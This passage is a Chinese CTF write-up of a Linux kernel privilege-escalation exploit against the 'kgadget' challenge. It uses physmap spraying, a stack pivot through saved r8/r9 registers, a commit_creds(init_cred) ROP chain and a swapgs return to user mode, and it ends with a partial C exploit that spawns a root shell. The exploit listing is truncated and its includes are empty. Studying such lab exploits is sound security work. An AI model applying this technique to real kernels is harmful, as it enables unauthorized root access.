.text:FFFFFFFF81C00FC1 41 5A                         pop     r10
.text:FFFFFFFF81C00FC3 41 59                         pop     r9
.text:FFFFFFFF81C00FC5 41 58                         pop     r8
.text:FFFFFFFF81C00FC7 58                            pop     rax
.text:FFFFFFFF81C00FC8 59                            pop     rcx
.text:FFFFFFFF81C00FC9 5A                            pop     rdx
.text:FFFFFFFF81C00FCA 5E                            pop     rsi                             ;直到这里可以发现咱们是在主动恢复一些当时中断保存的pt_regs寄存器组
.text:FFFFFFFF81C00FCB 48 89 E7                      mov     rdi, rsp                        ;我们可以跳过这些寄存器直接开整
.text:FFFFFFFF81C00FCE 65 48 8B 24 25 04 60 00 00    mov     rsp, gs:qword_6004
.text:FFFFFFFF81C00FD7 FF 77 30                      push    qword ptr [rdi+30h]
.text:FFFFFFFF81C00FDA FF 77 28                      push    qword ptr [rdi+28h]
.text:FFFFFFFF81C00FDD FF 77 20                      push    qword ptr [rdi+20h]
.text:FFFFFFFF81C00FE0 FF 77 18                      push    qword ptr [rdi+18h]
.text:FFFFFFFF81C00FE3 FF 77 10                      push    qword ptr [rdi+10h]
.text:FFFFFFFF81C00FE6 FF 37                         push    qword ptr [rdi]
.text:FFFFFFFF81C00FE8 50                            push    rax
.text:FFFFFFFF81C00FE9 EB 43                         jmp     short loc_FFFFFFFF81C0102E
...........
.text:FFFFFFFF81C0102E                               loc_FFFFFFFF81C0102E:                   ; CODE XREF: swapgs_restore_regs_and_return_to_usermode+39↑j
.text:FFFFFFFF81C0102E 58                            pop     rax                             ;这里pop了两个值，所以需要在ROP种填充
.text:FFFFFFFF81C0102F 5F                            pop     rdi
.text:FFFFFFFF81C01030 0F 01 F8                      swapgs
.text:FFFFFFFF81C01033 FF 25 47 8D E4 00             jmp     cs:off_FFFFFFFF82A49D80
```

从这个名字也可以看出他是为了在中断例程结束后，从内核态返回用户态时所调用的函数，他首先会`pop`大量的寄存器来还原当时的环境，这里我们并不需要，所以我们需要的开始执行的地址就从`0xFFFFFFFF81C00FCB`进行咱们的利用，从这力同样可以返回用户态，因此这就是我们所需要的。

这里还有一点就是该`vmlinux`中并没有发现`mov rdi, rax`的指令，因此我们实现`commit_creds(prepare_kernel_cred(NULL))`有点困难，因此我们要利用到一个小知识点，那就是内核运行过程中会存在一个结构体`init_cred`，他表示`root`权限的结构体，因此我们改为实现`commit_creds(init_cred)`，找到结果如下：

```asm
ffffffff810c9640:       f0 ff 05 b9 20 9a 01    lock inc DWORD PTR [rip+0x19a20b9]        # ffffffff82a6b700
```

## 3. 利用步骤

一些基本的`gadget`找到后我们如何让程序运行呢，这里我们来梳理一下本题中的关键点：

- `ioctl`系统调用会执行我们传入的函数指针，但是这里只能传递内核的函数指针，由于开启了`SMAP/SMEP`所以会有访问控制。
- 我们大量使用`mmap`映射了大片用户内存到物理内存上，并且以页为单位构造相同的`ROP`链，因此此时我们只需要传递`direct mapping`中的某一个内核地址，如果我们`mmap`分配的内存达到了一定量级，理论上我们随机挑一个内存直接映射区地址，大概率会跳转到我们用户态构建的`ROP`链上。
- 最后就是我们`ROP`的基础，让我们的链位于栈上，我们所构造的`ROP`链目前是改不了了，但我们可以利用栈迁移的知识，通过栈迁移跳转到目标`ROP`上进行稳定提权。

## 4. 栈迁移以及偏移计算

总结过后我们目前最后的点那就是进行栈迁移，但是如何进行栈迁移呢？

经过我们之前的分析我们知道，在调用`ioctl`后，函数首先会对于其中的某些寄存器进行赋值操作，此时能够被咱们使用的是`r8`、`r9`了（不过这里暂时不太清楚，难道说是因为前面的寄存器都需要参与`ioctl`接下来的函数操作，而其他的寄存器由不尽数相连，无法构成迁移`ROP`？）

总之我们到`r8`、`r9`寄存器中填充我们的`ROP`链，也就是利用如下指令：

```asm
pop rsp; ret
```

我们通过在`r9`中填入指令，然后到`r8`当中填入我们所猜测的地址，这样就将栈迁移到了我们所构造的`mmap`映射到的物理内存了，然后就进行`ROP`。

这里同样找到该指令的地址：

```asm
0xffffffff811483d0 : pop rsp ; ret
```

但是我们该如何执行到这里的指令呢？这里我们知道当我们进入内核态的时候，栈同时也会转移，并且内核态的栈会保存咱们用户态时寄存器的一些值，所以我们此时只需要将栈顶地址加上到达保存`r9`寄存器值得地址偏移就可以使得我们执行当时的指令了，这个具体偏移我们调试内核进行查找。

接下来我们先来查找一下`kgadget`的偏移，具体步骤在我之前的文章有讲解，也就是重新打包一下文件系统以及`init`脚本即可，链接如下：

[https://www.52pojie.cn/thread-1706316-1-1.html](https://www.52pojie.cn/thread-1706316-1-1.html)

然后我们开始调试内核查看偏移：

首先我们先利用`ioctl`系统调用执行我们猜测的地址，这里我们填入的是一个`add rsp val; ret`类型的指令，目的就是让该指令能`ret`到`r9`，而`r9`中存放的是咱们的`pop rsp; ret`指令，从而实现栈迁移，这里我们先到伪造的内存页的第一条指令打上断点：



这里其实我填上的已经是找好的地址辣，但是目前我们假装不知道来寻找偏移，此时我们知道内核栈上应该存在6个`attrnba`的值，然后相隔1个又是他，这是`attrnba`师傅在写题的时候给的一个记号，如下：



因此我们在此刻查找对应栈看是否有这样的布局，我们浅看一下发现果然如此！


这里恰好跟我们预想的一致，而可以推算出`r9`寄存器值得地址保存在`0xffffc900001a7f98`，其实从旁边提示也知道是在这儿，而且底下得`r8`也确实是咱们猜测的地址，这里我们计算偏移也就是简单的减法：

`0xffffc900001a7f98 - 0xffffc900001a7ed8 = 0xc0`

可知我们需要找到的`ROP`的第一条语句应该是`add rsp, 0xc0`，可是一切并不如我们所料，在遍历`vmlinux`中并没发现这样的语句，但是我们找到了他的一个替代：

```asm
add rsp, 0xa0; pop rbx; pop r12; pop r13; pop rbp; ret
```

这条指令也确实可以达成将栈增加`0xc0`的效果，然后之后就是正常的进行我们的`ROP`链，这里我们构造`ROP`链是采取以下的方法：


最底下的`ROP`链也是咱们构造的执行相应函数提权的链条然后返回用户态。

## 5. 终极测试！

上面的步骤讲解完毕，我们就使用`qemu`进行测试。



可以发现我们猜测的`physmap`中的任意地址，大概率都可以完成提权操作。

下面是`exp`：


```c
#include 
#include 
#include 
#include 
#include 
#include 
#include 

const size_t init_cred = 0xffffffff82a6b700;
const size_t commit_creds = 0xffffffff810c92e0;
const size_t prepare_kernel_cred = 0xffffffff810c9540;
const size_t swapgs_pop2_retuser = 0xFFFFFFFF81C00FB0 + 0x1B;
const size_t pop_rsp_ret = 0xffffffff811483d0;
const size_t add_rsp = 0xffffffff810737fe;
const size_t pop_rdi_ret = 0xffffffff8108c6f0;
const size_t ret = 0xffffffff810001fc;
long page_size;     //一页大小
int dev;
size_t* map_spray[16000];
size_t guess;   
size_t user_cs, user_ss, user_rflags, user_sp;

void save_status();
void info_log(char*);
void error_log(char*);
void getShell();
void makeROP(size_t*);

void info_log(char* str){
  printf("\033[0m\033[1;32m[+]%s\033[0m\n",str);
}

void error_log(char* str){
  printf("\033[0m\033[1;31m%s\033[0m\n",str);
  exit(1);
}
void save_status(){
  __asm__("mov user_cs, cs;"
          "mov user_ss, ss;"
          "mov user_sp, rsp;"
          "pushf;"
          "pop user_rflags;"
        );
  info_log("Status has been saved.");
}

void getShell(){
  info_log("Ready to get root........");
  if(getuid()){
    error_log("Failed to get root!");
  }
  info_log("Root got!");
  system("/bin/sh");
}

void makeROP(size_t* space){
  int index = 0;
  for(; index 
```
## 0x02 总结

利用的主要是这么个思想以及物理内存的情况，本题也是回忆起了很多内核PWN的基础知识点，算是慢慢抓起来了
